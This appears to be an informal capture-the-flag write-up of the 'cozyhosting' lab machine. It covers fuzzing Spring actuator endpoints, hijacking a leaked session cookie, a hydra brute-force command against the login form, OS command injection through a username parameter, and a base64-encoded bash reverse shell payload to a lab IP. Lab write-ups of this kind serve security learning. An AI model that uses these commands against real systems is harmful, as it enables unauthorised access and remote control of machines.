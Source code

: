 ```
[Status: 200, Size: 195, Words: 1, Lines: 1, Duration: 614ms]
	    * FUZZ: actuator/sessions

[Status: 200, Size: 127224, Words: 542, Lines: 1, Duration: 1040ms]
    * FUZZ: actuator/beans

```



I watched this... on sessions acutators, maybe is some system user

```
"64F16CA11B7B479440E3C532038018BF":"kanderson"
```

## FEROXBUSTER##

I read over there some guy, that there is a tool that found directorys and more too



Im trying a bruteforce attack with hydra...
```
	hydra -l admin  -P /usr/share/wordlists/rockyou.txt cozyhosting.htb http-post-form '/login:username=^USER^&password=^PASS^&Login=Login:Invalid username or password' 
```
This helped me a loot when I do not remember how to do it on internet
Remember do not put "http://" before the cozyhosting.htb, this drops you mistakes
https://www.youtube.com/watch?v=rvme2kE8-jY



The bruteforce attack was just for my knowledge. What it realy cares is that if you change your actual cookie for the other one that we found on actuator/sessions we are able to get inside the admin panel. as K.anderson


I think this is some kind of remote command execution.


This suggests that an operating system command is executed when sending a `POST` request to the '/executessh' action. It led me to consider the possibility of an OS command injection. Indeed, I successfully executed the 'id' command via the 'username' parameter, yielding the result: `uid=1001(app)`


Apparently here we can execute commands or make a reverse shell here, i need a guide to do this machine, because im a fkn noob.. :(


Ok , this guy is saying that we need to encode this on base64 because the spaces and the & for sure is making probems... 

this is the payload
```
echo "bash -i>& /dev/tcp/10.10.16.45/4444 0>&1" | base64
```
this is the output
```
YmFzaCAtaT4mIC9kZXYvdGNwLzEwLjEwLjE2LjQ1LzQ0NDQgMD4mMQo=
```
